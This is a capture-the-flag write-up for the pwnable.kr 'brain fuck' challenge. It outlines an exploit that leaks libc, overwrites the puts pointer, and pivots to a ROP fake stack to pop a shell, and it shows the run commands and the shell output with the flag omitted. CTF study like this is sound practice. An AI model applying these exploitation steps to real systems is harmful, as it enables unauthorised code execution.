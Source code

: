 # brain fuck - 150 pt

## Task

```
I made a simple brain-fuck language emulation program written in C. 
The [ ] commands are not implemented yet. However the rest functionality seems working fine. 
Find a bug and exploit it to get a shell. 

Download : http://pwnable.kr/bin/bf
Download : http://pwnable.kr/bin/bf_libc.so

Running at : nc pwnable.kr 9001
```

## Solution

In brief, it works as follows:
* Use brianfuck commands to leak the libc base and overwrite the pointer to
  `puts`, which is used by the `[` command.
* Rebase the ROP payload (ROP is used to bypass NX) and write it to the RW
  section of the bf binary (which is not affected by ASLR), creating a fake
  stack.
* Send the `[` command to hijack execution and switch to the fake stack.
* Execute the ROP payload and pop the shell.
* Interact with the shell by capturing input and output.

To test the solution on the pwnable.kr server:
```
$ wget http://pwnable.kr/bin/bf_libc.so
$ ./solution.py './bf_libc.so' 'nc pwnable.kr 9001'
puts: 0xf761f020
text base: 0xf75c0000
ls <Enter Enter>

brainfuck
flag
libc-2.23.so
log
super.pl
cat flag <Enter Enter>

<flag omitted>
```

To test locally:
```
./solution.py libc-2.23.so ./bf
```

The libc argument is just a sanity check that matches a libc with a set of
gadgets.

Running under gdb is handled differently:
```
$ gdb -q -f bf -x cmd.gdb
(gdb) !mkfifo in
(gdb) r < <(cat in | tee in1.log | ./solution.py libc-2.23.so "in" | tee in2.log) > >(tee out1.log | ./solution.py libc-2.23.so "out" | tee out2.log  > in)
```
